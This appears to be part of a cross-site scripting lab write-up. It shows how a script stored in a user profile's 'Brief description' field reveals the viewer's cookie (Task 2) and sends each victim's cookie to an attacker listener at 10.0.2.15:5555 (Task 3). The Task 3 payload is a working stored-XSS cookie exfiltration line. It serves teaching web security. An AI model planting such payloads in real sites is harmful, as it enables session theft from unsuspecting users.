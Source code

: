 # Task 2
Edit the ```Brief description``` module and save:
```
<script>
  alert(document.cookie);
</script>
```
When accessing the profile page, it will show the cookie of the log-in user.

When Alice opens the page, it will be

![alt text](https://github.com/Qurat-ul-ainn/Cross-scripting-attack/blob/main/22.PNG)

# Task 3
Edit the ```Brief description``` as:
```
<script>
  document.write(
    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
  );
 </script>
```
It will send an HTTP GET request to the ```port 5555``` on the attacker with ```document.cookie``` whenever the profile page is accessed by any victim user.
